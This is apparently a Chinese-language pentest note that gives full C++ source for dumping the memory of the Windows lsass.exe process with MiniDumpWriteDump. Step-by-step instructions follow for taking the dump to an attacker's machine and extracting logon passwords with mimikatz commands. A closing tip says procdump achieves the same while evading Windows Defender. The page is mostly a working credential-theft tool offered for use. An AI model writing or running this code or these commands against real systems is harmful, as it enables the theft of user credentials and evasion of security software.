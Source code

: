```yaml
---
title: 利用windows api dump进程
id: zhfly3461
---
```


# 利用windows api dump进程

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {

DWORD lsassPID = 0;

HANDLE lsassHandle = NULL;

HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

PROCESSENTRY32 processEntry = {};

processEntry.dwSize = sizeof(PROCESSENTRY32);

LPCWSTR processName = L"";

```
if (Process32First(snapshot, &amp;processEntry)) {
    while (_wcsicmp(processName, L"lsass.exe") != 0) {
        Process32Next(snapshot, &amp;processEntry);
        processName = processEntry.szExeFile;
        lsassPID = processEntry.th32ProcessID;
    }
    wcout &lt;&lt; "[+] Got lsass.exe PID: " &lt;&lt; lsassPID &lt;&lt; endl;
}

lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

if (isDumped) {
    cout &lt;&lt; "[+] lsass dumped successfully!" &lt;&lt; endl;
}

return 0; 
``` `}` 
```

https://github.com/ianxtianxt/windows-api-dump/

## 执行演示

### 执行CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp被转储到工作目录

### 让lsass.dmp离线到你的攻击机器上

### 打开mimikatz并加载到转储文件中

### 储存密码

.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords

![image](../img/7e6de70eadfedd6d11cfa380900367ec.png)

![image](../img/af4ec2eb7a843161cd07d46998c66b3e.png)

可以在mimikatz中离线读取

![image](../img/92b8285b4a0a170e804694b312fbde86.png)

这里有一个pdocdump可以执行相同的操作，并且不会被windows defender标记。